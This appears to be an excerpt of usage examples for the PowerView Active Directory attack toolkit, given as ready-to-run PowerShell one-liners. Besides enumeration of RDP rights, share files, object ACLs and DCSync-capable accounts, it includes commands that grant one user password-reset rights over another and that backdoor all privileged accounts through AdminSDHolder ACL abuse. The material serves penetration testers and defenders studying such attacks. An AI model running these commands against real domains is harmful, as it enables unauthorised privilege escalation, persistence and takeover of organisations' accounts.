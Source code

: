 # enumerate what machines that a given user in the specified domain has RDP access rights to
Get-DomainGPOUserLocalGroupMapping -Identity <USER> -Domain <DOMAIN> -LocalGroup RDP

# export a csv of all GPO mappings
Get-DomainGPOUserLocalGroupMapping | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv

# use alternate credentials for searching for files on the domain
#   Find-InterestingDomainShareFile == old Invoke-FileFinder
$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("DOMAIN\user",$Password)
Find-InterestingDomainShareFile -Domain DOMAIN -Credential $Credential

# enumerate who has rights to the 'matt' user in 'testlab.local', resolving rights GUIDs to names
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local

# grant user 'will' the rights to change 'matt's password
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose

# audit the permissions of AdminSDHolder, resolving GUIDs
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs

# backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All

# retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}

# find linked DA accounts using name correlation
Get-DomainGroupMember 'Domain Admins' | %{Get-DomainUser $_.membername -LDAPFilter '(displayname=*)'} | %{$a=$_.displayname.split(' ')[0..1] -join ' '; Get-DomainUser -LDAPFilter "(displayname=*$a*)" -Properties displayname,samaccountname}
